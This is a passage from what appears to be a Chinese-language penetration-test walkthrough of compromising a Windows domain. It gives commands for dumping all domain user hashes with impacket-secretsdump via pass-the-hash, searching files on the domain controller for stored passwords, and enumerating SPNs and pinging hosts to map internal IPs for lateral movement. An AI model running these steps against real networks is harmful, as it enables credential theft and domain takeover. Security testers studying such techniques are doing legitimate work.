 无妨，我们通过 Metasploit 弹了一个正向 shell 后拿到域管理的 hash，随后远程导出域内用户 hash：

    
    
    impacket-secretsdump -hashes xxxxx:xxxxx -just-dc AAAA.com/Administrator@xxx.xxx.40.xxx -pwd-last-set  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221209101658.png)

此时 AAA 域已经拿下， **所有用户的 hash 也已经掌握（大家记住这里已经拿到 AAA 域的所有域用户密码，一会对 BBB 域有用）**

随后通过 WMI 登录到 DC 上，然后去搜索一些密码文件：（要习惯如果拿到了一台 Windows
机器的权限，经可能的要去搜集它当前机器上的各类文件，里面说不定就有一些密码或者连接信息）

    
    
    findstr /c:"username=" /c:"password=" /c:"uid=" /c:"pwd=" /si *.ini *.inf *.txt *.cgi *.conf *.asp *.php *.jsp *.aspx *.cgi *.xml *.log *.new *.bak  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221209101703.png)

## 定位每一台域机器对应的 IP 是多少

就这样我得到了大量存放在域控机器上的密码，然后为了确定每一台域机器对应的 IP 是多少，首先提取当前域内完整 SPN 记录, 排序去重后过滤出机器名列表：

    
    
    setspn -Q */* | findstr "CN=" > C:\windows\temp\host.txt  
    

然后本地 linux 去过滤得到机器名：

    
    
    awk -F "," '{print $1}' host.txt | awk -F "=" '{print $2}' > hosts.txt  
    

最后来到当前 Windows 跳板机器上循环 Ping 得到机器  IP：

    
    
    c:\windows\temp>cmd /c for /f "delims=" %i in (C:\windows\temp\hosts.txt) do @ping -w 3 -n 1 %i | findstr /c:"[1" >> C:\windows\temp\final.txt  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221209101704.png)

这样就确定了每一台机器对应的 IP，若想要控某一台机器那就很方便了！

接下来对当前 AAA 域的内网进行信息搜集发现没有啥可利用的价值，随后选择继续横向信息搜集。

大家要知道在内网里乱横向信息搜集、乱扫描是毫无意义的！且容易被发现导致送人头，在这里可以把之前外网渗透时搜集到的目标子域名进行内网 host
碰撞，这样能够精确的知道每一台机器对应的是什么系统！

## host 碰撞获取内外网对应资产

为了更好的定位内外网的资产对应关系，可以使用 win 自带的命令来帮我们获取：（Ping 的到的 IP 不一定就一定存活）

    
    
    for /f "delims=" %i in (domain.txt) do @ping -w 1 -n 1 %i | findstr /c:"[10." /c:"[192." /c:"[172." >> out.txt  
    